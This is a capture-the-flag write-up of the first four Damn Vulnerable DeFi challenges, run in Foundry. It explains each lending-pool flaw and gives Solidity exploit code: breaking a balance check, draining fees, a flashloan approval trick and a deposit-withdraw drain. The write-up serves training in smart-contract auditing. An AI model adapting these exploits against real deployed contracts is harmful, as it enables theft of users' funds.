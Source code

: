 # Damn Vulnerable Defi Foundry Writeup #

Hi, my name is Juan,  i wrote this writeup to help anybody interested in develop Smart contract auditing skills. I previously resolved other challenges as Ethernaut and CaptureTheEther so i recommend try them before get into this more advanced Defi challenges so i will asume you have a previous basic knowledge.

Any comments/corrections please reach me at my twitter account: **@devnet0x**

## Challenge 1: Unstoppable ##
The vulnerability in this challenge is in the flashloan, previous to transfer tokens we have this condition:

        if (poolBalance != balanceBefore) revert AssertionViolated();

So, we as attacker's must transfer 1 token to lender pool to create a difference between poolBalance and balanceBefore. Then, nobody else will be able to borrow a flashloan:

```
   function testExploit() public {
        /** EXPLOIT START **/
        vm.startPrank(attacker);
        dvt.transfer(address(unstoppableLender), 1 ether);
        vm.stopPrank();
        /** EXPLOIT END **/
        vm.expectRevert(UnstoppableLender.AssertionViolated.selector);
        validation();
    }
```

Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/01_Unstoppable

## Challenge 2: NaiveReceiver ##

This time, you got to watch how is succesful challenge validated.

```
    function validation() internal {
        // All ETH has been drained from the receiver
        assertEq(address(flashLoanReceiver).balance, 0);
        assertEq(
            address(naiveReceiverLenderPool).balance,
            ETHER_IN_POOL + ETHER_IN_RECEIVER
        );
    }
```

So you can see that you need to transfer eth from receiver to lender. To do this, just call flashLoan function 10 times to transfer (consume)
all receiver ethers as fees. (Flashloan amount doesn't matter because fee is always 1 ETH)

```
    function testExploit() public {
        /** EXPLOIT START **/
        vm.startPrank(attacker);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        vm.stopPrank();
        /** EXPLOIT END **/
        validation();
    }
```

Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/02_NaiveReceiver

## Challenge 3: Truster ##
The vulnerability in this challenge is that the flashloan let us execute any function in his own contract so we can approve tokens to our own attacker's addredd. The steps to drain all tokens are: Call the flashLoan function asking to borrow 0 token, so we will not need to pay back anything. This is important because the attacker does not own any DVT token.

```
        vm.startPrank(attacker);
        uint256 borrowAmt = 0;
```
Call the flashLoan with target as the DVT token address to execute the call method on the Token contract itself
```
        address targetContract = address(dvt);
```
Construct the data payload to make the TrusterLenderPool to call the DVT approve method
```
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            attacker,
            1000000 ether
        );
```
Call flashloan
```
        trusterLenderPool.flashLoan(borrowAmt, attacker, targetContract, data);
```
Transfer all tokens to attacker
```
        dvt.transferFrom(address(trusterLenderPool), attacker, 1000000 ether);
        vm.stopPrank();
```
Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/03_Truster

## Challenge 4: SideEntrance ##

The contract vulnerability is that you can cheat lender balance, depositing his own lender balance but under your account balance. To do that, you must build a contract that borrow ETH from the lender:

```
    function exploit(address _to) external {
        lenderContract.flashLoan(1000 ether);
        lenderContract.withdraw();
        payable(_to).transfer(1000 ether);
    }
```
Then, flashLoan function will call execute () function in our attacker's contract which will let us deposit borrowed ETH to the lender (so now ETH is in yor balance and contract balance is still 1000ETH). 
   
```
    function execute() external payable {
        lenderContract.deposit{value: 1000 ether}();
    }
``` 

This way you can pass and pay the flashloan:
        
        if (address(this).balance < balanceBefore)
        
Finally, in Foundry we just deploy our attacker contract:

``` 
    function testExploit() public {
        /** EXPLOIT START **/
        vm.startPrank(attacker);
        AttackerContract attackerContract = new AttackerContract(
            address(sideEntranceLenderPool)
        ); //deploy our attacker contract
        attackerContract.exploit(address(attacker));
        /** EXPLOIT END **/
        vm.stopPrank();
        validation();
    }
``` 

Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/04_SideEntrance
